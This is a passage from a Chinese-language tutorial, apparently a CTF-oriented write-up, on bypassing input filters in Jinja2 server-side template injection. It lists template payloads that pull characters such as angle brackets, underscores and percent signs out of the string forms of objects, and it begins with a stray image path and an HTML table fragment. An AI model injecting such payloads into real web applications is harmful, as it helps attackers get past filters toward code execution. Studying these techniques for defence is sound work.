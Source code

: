 <a href="https://jinja.palletsprojects.com/en/master/templates/#reverse" target="_blank"><code>reverse()</code></a></td><td><a href="https://jinja.palletsprojects.com/en/master/templates/#title" target="_blank"><code>title()</code></a></td><td><a href="https://jinja.palletsprojects.com/en/master/templates/#xmlattr" target="_blank"><code>xmlattr()</code></a></td></tr></tbody></table>

可以自行点击每个过滤器去查看每一种过滤器的作用。我们就是利用这些过滤器，一步步的拼接出我们想要的字符、数字或字符串。

### 常用字符获取入口点

*   对于获取一般字符的方法有以下几种：

```
{% set org = ({ }|select()|string()) %}{{org}}
{% set org = (self|string()) %}{{org}}
{% set org = self|string|urlencode %}{{org}}
{% set org = (app.__doc__|string) %}{{org}}


```

如下演示：

```
{% set org = ({ }|select()|string()) %}{{org}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26b17380-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174659-26b17380-bd3e-1.png)

上上图所示，我们可以通过 `<generator object select_or_reject at 0x7fe339298fc0>` 字符串获取的字符有：尖号、字母、空格、下划线和数字。

```
{% set org = (self|string()) %}{{org}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-26d65cf4-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-26d65cf4-bd3e-1.png)

如上图所示，可以通过 `<TemplateReference None>` 字符串获取的字符有：尖号、字母和空格。

```
{% set org = self|string|urlencode %}{{org}}


```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-2704f384-bd3e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210525174700-2704f384-bd3e-1.png)

如上图所示，可以获得的字符除了字母以外还有百分号，这一点比较重要，因为如果我们控制了百分号的话我们可以获取任意字符，这个在下面第二道题中会讲到。

```
{% set org = (app.__doc__|string) %}{{org}}


```
